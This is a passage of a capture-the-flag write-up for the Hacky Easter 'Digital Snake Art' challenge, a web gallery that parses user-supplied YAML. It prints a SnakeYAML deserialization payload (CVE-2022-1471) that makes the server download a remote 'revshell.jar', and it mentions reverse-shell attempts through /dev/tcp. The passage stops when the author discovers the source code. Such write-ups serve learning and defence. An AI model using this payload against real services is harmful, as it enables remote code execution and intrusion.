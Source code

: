 # Digital Snake Art

## Description
I'm a big fan of digital art!

How do you like my new gallery?

http://ch.hackyeaster.com:2307

Note: The service is restarted every hour at x:00.

<img width="300" alt="image" src="https://user-images.githubusercontent.com/2973929/234147383-1a18a1b5-4a08-446c-804c-c7e652d646b8.png">

<img width="554" alt="image" src="https://user-images.githubusercontent.com/2973929/234147408-ad940e01-05c4-4ba9-80a2-9470a1d87b56.png">

## Solution

This one took me a full day to complete.

First, the payload for a "normal" request:

```
echo -n "bmFtZTogU25ha2VzIGF0IHRoZSBCZWFjaAppbWFnZTogc25ha2VzX2F0X3RoZV9iZWFjaApzb3VyY2U6IERBTEwtRQpyZXNvbHV0aW9uOiAyNTZ4MjU2"| base64 -d
name: Snakes at the Beach
image: snakes_at_the_beach
source: DALL-E
resolution: 256x256
```

It's a YAML with the info. I suspected I could inject some file name in `image:` like /flag.txt and be happy, but that was definitely not the case. 

After googling a lot I came to know about [CVE-2022-1471](https://nvd.nist.gov/vuln/detail/CVE-2022-1471) and I quickly found some [PoCs](https://github.com/artsploit/yaml-payload/) promising RCEs and reverse shells using javax.net.URLClassLoader, which (for what I could make of it) should let you load an external Class by URL. 

I spent all my day trying to achieve that, and although I could get the server to download my malicious .jar files, I never got it to run them, and oh boy, I tried.
The payload I used to make the server download my exploit was:

```yaml
name: Snakes at the Beach
image: snakes_at_the_beach
source: DALL-E
resolution: !!javax.script.ScriptEngineManager [  !!java.net.URLClassLoader [[    !!java.net.URL ["http://myserver/revshell.jar"]  ]]]
```
I've tried jars to `ping`, `echo > /dev/tcp/` and a lot of other things, but the application _NEVER_ ran my code. I have no idea why.

It took my a while to find out that the source code for the application was available, and although I'm no Java Programmer, I still know how to read. 
